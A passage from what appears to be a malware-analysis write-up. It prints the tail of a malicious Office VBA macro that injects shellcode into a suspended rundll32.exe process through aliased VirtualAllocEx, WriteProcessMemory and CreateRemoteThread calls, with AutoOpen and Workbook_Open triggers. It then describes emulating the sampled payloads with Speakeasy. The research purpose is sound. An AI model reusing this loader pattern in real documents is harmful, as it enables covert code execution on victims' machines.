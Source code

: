 ```vb
        sProc = Environ("windir") & "\\System32\\rundll32.exe"
    End If

    res = RunStuff(sNull, sProc, ByVal 0&, ByVal 0&, ByVal 1&, ByVal 4&, ByVal 0&, sNull, sInfo, pInfo)

    rwxpage = AllocStuff(pInfo.hProcess, 0, UBound(myArray), &H1000, &H40)
    For offset = LBound(myArray) To UBound(myArray)
        myByte = myArray(offset)
        res = WriteStuff(pInfo.hProcess, rwxpage + offset, myByte, 1, ByVal 0&)
    Next offset
    res = CreateStuff(pInfo.hProcess, 0, 0, rwxpage, 0, 0, 0)
End Sub
Sub AutoOpen()
    Auto_Open
End Sub
Sub Workbook_Open()
    Auto_Open
End Sub

```

Within my research the authors did slightly change up variable names, but the following aliases were consistent across the data. 

- CreateStuff -> `CreateRemoteThread`
- AllocStuff -> `VirtualAllocEx`
- WriteStuff -> `WriteProcessMemory`
- RunStuff -> `CreateProcessA`

I built a reliable shellcode signature and after some hunting I had ~300 samples.  

# Automation

Creating a script to automate the process was a fairly simple task.  Extract the macro, do some initial cleanup and data processing, finally emulate the payload using Speakeasy (https://github.com/fireeye/speakeasy).  

Loading shellcode into a Speakeasy object and running can be achieved with the following python snippet (where `temp.sc` is a file containing the processed shellcode):

```python
    se = speakeasy.Speakeasy()
    if arch == 'x86':
        arch = e_arch.ARCH_X86
    elif arch in ('x64', 'amd64'):
        arch = e_arch.ARCH_AMD64
    sc_addr = se.load_shellcode('temp.sc',arch)
    se.run_shellcode(sc_addr, 0)
```
When emulation is completed, the `get_report` function will return back the session info, stored as JSON.
```python
report = se.get_report()
```

